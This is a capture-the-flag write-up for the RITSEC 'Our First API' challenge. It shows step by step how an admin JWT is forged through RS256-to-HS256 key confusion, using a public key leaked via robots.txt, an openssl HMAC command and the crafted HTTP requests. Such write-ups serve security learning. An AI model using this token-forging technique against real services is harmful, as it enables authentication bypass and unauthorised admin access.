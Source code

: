 # Description  
```  
Our First API  
472

ctfchallenges.ritsec.club:3000 ctfchallenges.ritsec.club:4000

Hint: You don't need the Bearer keyword!

Author: sandw1ch  
```

# Solution

We have two APIs, listening on port 3000 and 4000 on the same domain. On port
4000 we find API documentation.

> ## API Documentation  
>  
> Below are some of the api endpoints that you can use. Please use them
> responsibly :)!  
>  
> Use the format below to make your requests to the API.  
>  
> | *Nodes* | *Description* |  
> |:------|:------------|  
> | `/api/admin` | For admin users to authenticate. Please provide us your authorization token given to you by the /auth endpoint. |  
> | `/api/normal` | For standard users to authenticate. Please provide us your authorization token given to you by the /auth endpoint. |  
> | `/auth` | Authentication endpoint on port 3000. Please send your name and this api will return your token for accessing the api! |

Inspecting the source code of the API documentation page yields a hint:

```html  
</body>

</html>  
```

We request the `/auth` endpoint but receive an error.

```  
HTTP/1.1 400 Bad Request  
Server: nginx/1.14.0 (Ubuntu)  
Date: Sat, 16 Nov 2019 21:19:28 GMT  
Content-Type: application/json; charset=utf-8  
Content-Length: 35  
Connection: close  
X-Powered-By: Express  
ETag: W/"23-R2avBBYZNhW66Qk2Ww5q+bYPo7A"

{"reason":"missing name parameter"}  
```

We then supply a GET parameter that holds our name.

```  
GET /auth?name=geert HTTP/1.1  
Host: ctfchallenges.ritsec.club:3000  
[...]  
```

From this we get a JWT.

```  
HTTP/1.1 200 OK  
Server: nginx/1.14.0 (Ubuntu)  
X-Powered-By: Express  
[...]

{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2VlcnQiLCJ0eXBlIjoidXNlciIsImlhdCI6MTU3MzkzNzYxOH0.FVnhcP7ixblUlZpvpPDVALMx8SmO21aA1wlNWPmjxcwFkBHgOlxHQb-
Wxok15BAfZqFsDmvoYuQf2W9kEHdYmxdTcDjK-
ftHok3reqJNYXQi40SCMwLflD5t54SS2IOfEMKz1wqrcrYg-G8hseNnm0wj0wnyTe5PX_3LnQr0Ypg"}  
```

Using this JWT we can authenticate to the `/api/normal` endpoint on port 4000.

```  
GET /api/normal HTTP/1.1  
Host: ctfchallenges.ritsec.club:4000  
Authorization:
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJuYW1lIjoiZ2VlcnQiLCJ0eXBlIjoidXNlciIsImlhdCI6MTU3MzkzNzE1OH0.NjTOAumK79ptAwBNsI-6cJZP5QGBqaZgQe2llWUryDVdvUN5ZYTekLQ7URCd-2-jKVqVr1XnlNBc63JNt5hjOP8zk_8LXjviBEw-9BeI4Sq17apL7ncQ7bBForChJ9hqSITvoFeFDa44tEMmWhT-
EKGqYf4vvV9c2hbp2km2mD4  
[...]  
```

The server informs us that authentication was successful.

```  
HTTP/1.1 200 OK  
Server: nginx/1.14.0 (Ubuntu)  
X-Powered-By: Express  
[...]

{"flag":"Congrats on authenticating! Too bad flags aren't for normal users
!!"}  
```

Sending the same JWT to the `/api/admin` endpoint does not work.

```  
HTTP/1.1 403 Forbidden  
Server: nginx/1.14.0 (Ubuntu)  
X-Powered-By: Express  
[...]

Invalid JWT or bad signature  
```

We saw before that there is a `robots.txt` to be found on port 3000.

```  
User-agent: *  
Disallow: /signing.pem  
Disallow: /auth  
```

We download `signing.pem` which turns out to be a RSA public key.  
The private counterpart of this key is used to sign the JWT that is
distributed upon authentication via the `/auth` endpoint.  
This suggests we might have to perform JWT key confusion attacks.

On [JWT.io](https://www.jwt.io) we paste the obtained token into the debugger
and find the following structure:

```  
Headers = {  
 "typ" : "JWT",  
 "alg" : "RS256"  
}

Payload = {  
 "name" : "geert",  
 "type" : "user",  
 "iat" : 1573936765  
}

Signature =
"nbPjfoCl967-e_eMNmC4Le5uf0Tv8seyFrPfwxCVHvIstjVzRn0-lY3LHBANNFbhjJ5BsLoWiiMxGzmNBPXLeW6g9RabuccIJLICY6RjurjflrOx-L6DA1VAhcjr-
fEeXteIYdGcQ_sHcNOphh47iZw94_eB9gcx86femBsYJFo"  
```

With the key confusion we essentially trick the JWT library on the server into
thinking the signature is created using symmetric cryptography (HMAC SHA256)
instead of assymmetric (RSA SHA256).

We modify the header to reflect this change and change the payload to indicate
we would like to be admin instead.

```  
Headers = {  
 "typ" : "JWT",  
 "alg" : "HS256"  
}

Payload = {  
 "name" : "geert",  
 "type" : "admin",  
 "iat" : 1573936765  
}  
```

We create the first two parts of the forged JWT:  
```  
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2VlcnQiLCJ0eXBlIjoiYWRtaW4iLCJpYXQiOjE1NzM5MzcxNTh9  
```

Next we sign the token and append the signature.

```  
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2VlcnQiLCJ0eXBlIjoiYWRtaW4iLCJpYXQiOjE1NzM5MzcxNTh9" | openssl dgst -sha256 -mac HMAC -macopt hexkey:$(cat signing.pem | xxd -p | tr -d "\\n")  
(stdin)= 384b003f89fd073941460a1e2bbb730584c60ee6f16c36b48e957fe916dc3e5d  
```

```  
$ python -c "exec(\"import base64, binascii\nprint
base64.urlsafe_b64encode(binascii.a2b_hex('384b003f89fd073941460a1e2bbb730584c60ee6f16c36b48e957fe916dc3e5d')).replace('=','')\")"  
OEsAP4n9BzlBRgoeK7tzBYTGDubxbDa0jpV_6RbcPl0  
```

We append the obtained signature to the first two parts and send it to the
`/api/admin` endpoint on port 4000.

```  
GET /api/admin HTTP/1.1  
Host: ctfchallenges.ritsec.club:4000  
Authorization:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2VlcnQiLCJ0eXBlIjoiYWRtaW4iLCJpYXQiOjE1NzM5MzcxNTh9.OEsAP4n9BzlBRgoeK7tzBYTGDubxbDa0jpV_6RbcPl0  
[...]  
```

The server returns the flag.

```  
HTTP/1.1 200 OK  
Server: nginx/1.14.0 (Ubuntu)  
X-Powered-By: Express  
[...]

{"flag":"RITSEC{JWT_th1s_0ne_d0wn}"}  
```

We have now successfully solved the challenge by using JWT key confusion.